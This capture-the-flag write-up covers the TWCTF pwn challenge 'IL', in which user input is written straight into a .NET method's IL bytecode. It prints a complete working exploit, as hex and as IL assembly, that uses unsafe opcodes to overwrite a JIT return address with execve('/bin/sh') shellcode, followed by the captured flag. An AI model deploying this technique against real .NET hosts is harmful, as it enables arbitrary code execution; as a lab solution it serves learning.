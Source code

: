 ## IL - pwn - 379 points (10 solves)

### Problem

We're given a Linux binary called `il`, which is a .NET Core stub program that loads a .NET assembly called `il.dll`. We can use dnSpy to decompile `il.dll`. It's very simple: all it does is read up to 2053 bytes of data from `stdin` (base64-encoded), then write those bytes into a specific offset of another .NET assembly called `ilstub.dll`. It then loads the modified binary using `Assembly.load`, grabs the function `IlStub.Stub.Func`, and calls it with the argument `0x1337`.

`ilstub.dll` is also a simple .NET assembly containined the aforementioned function. We can see that the user's input bytes are written directly into the IL bytecode of `IlStub.Stub.Func`. Therefore, we're basically being asked to write some .NET IL code which will read a flag or pop a shell.

### Solution

We discovered that we can use `unsafe` opcodes, as long as they otherwise pass the bytecode verifier (don't use too much stack, don't operate on the wrong types, don't unbalance the stack, etc.). Unsafe opcodes, as the name implies, are opcodes which allow you to read or write through addresses (rather than through references, as safe code would), and therefore completely break the memory safety of the .NET runtime.

It also turns out that the code is fully JITted, which means that there's a lot of `rwx` pages where we could just write shellcode. We have a handy opcode called `ldarga` which loads the address of an argument - a stack address. From `gdb`, we could see that this address was 2 qwords below the saved return address - and the saved return address points to another `rwx` page! So our plan is very simple: use `ldarga` to get the stack address, offset it to point to the return address, load the return address, and write shellcode there. Upon returning, our shellcode would run.

Due to struggles with `ilasm` during the competition, we ended up just manually assembling the exploit into hex:

```
0f 00
; add 8 twice
1e 6e 58
1e 6e 58
; deref stack slot
4c
; write shellcode (dup, ldc.i4, stind.i, then add 4)
25 20 488d 3df9 df 1a 6e 58
25 20 ffff ff48 df 1a 6e 58
25 20 83c7 1531 df 1a 6e 58
25 20 f631 d231 df 1a 6e 58
25 20 c0b0 3b0f df 1a 6e 58
25 20 052f 6269 df 1a 6e 58
25 20 6e2f 7368 df 1a 6e 58
25 20 0000 0000 df 1a 6e 58
; ret - shellcode executed
2a
```

Here's how that looks in IL assembly:

```
	/* 0x0000025C 0F00         */ IL_0000: ldarga.s  arg
	/* 0x0000025E 1E           */ IL_0002: ldc.i4.8
	/* 0x0000025F 6E           */ IL_0003: conv.u8
	/* 0x00000260 58           */ IL_0004: add
	/* 0x00000261 1E           */ IL_0005: ldc.i4.8
	/* 0x00000262 6E           */ IL_0006: conv.u8
	/* 0x00000263 58           */ IL_0007: add
	/* 0x00000264 4C           */ IL_0008: ldind.i8
	/* 0x00000265 25           */ IL_0009: dup
	/* 0x00000266 20488D3DF9   */ IL_000A: ldc.i4    -113406648
	/* 0x0000026B DF           */ IL_000F: stind.i
	/* 0x0000026C 1A           */ IL_0010: ldc.i4.4
	/* 0x0000026D 6E           */ IL_0011: conv.u8
	/* 0x0000026E 58           */ IL_0012: add
	/* 0x0000026F 25           */ IL_0013: dup
	/* 0x00000270 20FFFFFF48   */ IL_0014: ldc.i4    1224736767
	/* 0x00000275 DF           */ IL_0019: stind.i
	/* 0x00000276 1A           */ IL_001A: ldc.i4.4
	/* 0x00000277 6E           */ IL_001B: conv.u8
	/* 0x00000278 58           */ IL_001C: add
	/* 0x00000279 25           */ IL_001D: dup
	/* 0x0000027A 2083C71531   */ IL_001E: ldc.i4    823510915
	/* 0x0000027F DF           */ IL_0023: stind.i
	/* 0x00000280 1A           */ IL_0024: ldc.i4.4
	/* 0x00000281 6E           */ IL_0025: conv.u8
	/* 0x00000282 58           */ IL_0026: add
	/* 0x00000283 25           */ IL_0027: dup
	/* 0x00000284 20F631D231   */ IL_0028: ldc.i4    835858934
	/* 0x00000289 DF           */ IL_002D: stind.i
	/* 0x0000028A 1A           */ IL_002E: ldc.i4.4
	/* 0x0000028B 6E           */ IL_002F: conv.u8
	/* 0x0000028C 58           */ IL_0030: add
	/* 0x0000028D 25           */ IL_0031: dup
	/* 0x0000028E 20C0B03B0F   */ IL_0032: ldc.i4    255570112
	/* 0x00000293 DF           */ IL_0037: stind.i
	/* 0x00000294 1A           */ IL_0038: ldc.i4.4
	/* 0x00000295 6E           */ IL_0039: conv.u8
	/* 0x00000296 58           */ IL_003A: add
	/* 0x00000297 25           */ IL_003B: dup
	/* 0x00000298 20052F6269   */ IL_003C: ldc.i4    1768042245
	/* 0x0000029D DF           */ IL_0041: stind.i
	/* 0x0000029E 1A           */ IL_0042: ldc.i4.4
	/* 0x0000029F 6E           */ IL_0043: conv.u8
	/* 0x000002A0 58           */ IL_0044: add
	/* 0x000002A1 25           */ IL_0045: dup
	/* 0x000002A2 206E2F7368   */ IL_0046: ldc.i4    1752379246
	/* 0x000002A7 DF           */ IL_004B: stind.i
	/* 0x000002A8 1A           */ IL_004C: ldc.i4.4
	/* 0x000002A9 6E           */ IL_004D: conv.u8
	/* 0x000002AA 58           */ IL_004E: add
	/* 0x000002AB 25           */ IL_004F: dup
	/* 0x000002AC 2000000000   */ IL_0050: ldc.i4    0
	/* 0x000002B1 DF           */ IL_0055: stind.i
	/* 0x000002B2 1A           */ IL_0056: ldc.i4.4
	/* 0x000002B3 6E           */ IL_0057: conv.u8
	/* 0x000002B4 58           */ IL_0058: add
	/* 0x000002B5 2A           */ IL_0059: ret
```

When run, we get a shell, so we can `cat flag.txt` to get our flag: `TWCTF{0n3_brINgS_5h4d0W_0nE_BRIng5_LighT}`
